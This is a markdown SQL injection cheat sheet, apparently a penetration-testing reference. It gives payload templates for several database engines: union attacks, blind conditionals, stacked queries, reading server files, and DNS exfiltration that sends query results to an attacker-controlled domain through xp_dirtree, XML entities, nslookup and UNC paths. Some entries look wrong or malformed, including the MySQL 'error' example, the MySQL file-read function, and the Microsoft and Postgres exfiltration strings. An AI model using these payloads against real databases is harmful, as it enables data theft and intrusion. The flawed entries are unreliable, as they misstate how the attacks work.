 # SQL Injection
## Union Attacks
**Requires knowing number of columns returned**
**Requires selected columns matching datatypes from original query**
- `UNION SELECT <COL1> FROM <TABLE>`

### Determining Column Length
- `ORDER BY <x>--` 
- `UNION SELECT NULL,[NULL,...]--`
	- Oracle - `SELECT NULL,[NULL,...] FROM DUAL--`
Repeat until unexpected behaviour occurs

## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> [ELSE <FALSE>] END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END`
- MySql / MariaDB - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`
### Fixed Conditions
- TRUE -> `OR 1=1--`
- FALSE -> `AND 1=2--`
- Error -> 
	- Oracle - `to_char(1/0)`
	- Microsoft - `1/0`
	- Postgres - `cast(1/0 as text)`
	- MySql / MariaDB - `SELECT table_name FROM information_schema.tables`

## Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDB - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

## String Concatenation
**Useful for dumping char/varchar information inside a single char/varchar column**
- Oracle / Postgres - `'<STR>'||'<ING>'`
- Microsoft - `'<STR>'+'<ING>'`
- MySQL / MariaDB - `'<STR>' '<ING>'` `CONCAT('<STR>','<ING>')`

## Joining Rows
**Useful if reflection only takes first row**
- Oracle - `listagg(<COL>, "\n")`
- Microsoft / Postgres - `string_agg(<COL>, "\n")`
- MySQL / MariaDB - `group_concat(<COL1>, ":", <COL2>, "\n")`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)` -> 'ba'
- Microsoft / Postgres / MySql / MariaDB - `SUBSTRING('foobar', 4, 2)` -> 'ba'

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDB - `<QUERY1>;<QUERY2>`

## Reading Files
- Postgres (Only in data directory) - `SHOW data_directory` -> `PG_READ_FILE('<REL_PATH>')`
- MySql / MariaDB - `READ_FILE('<ABS_PATH>')`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||<QUERY>||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDB (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`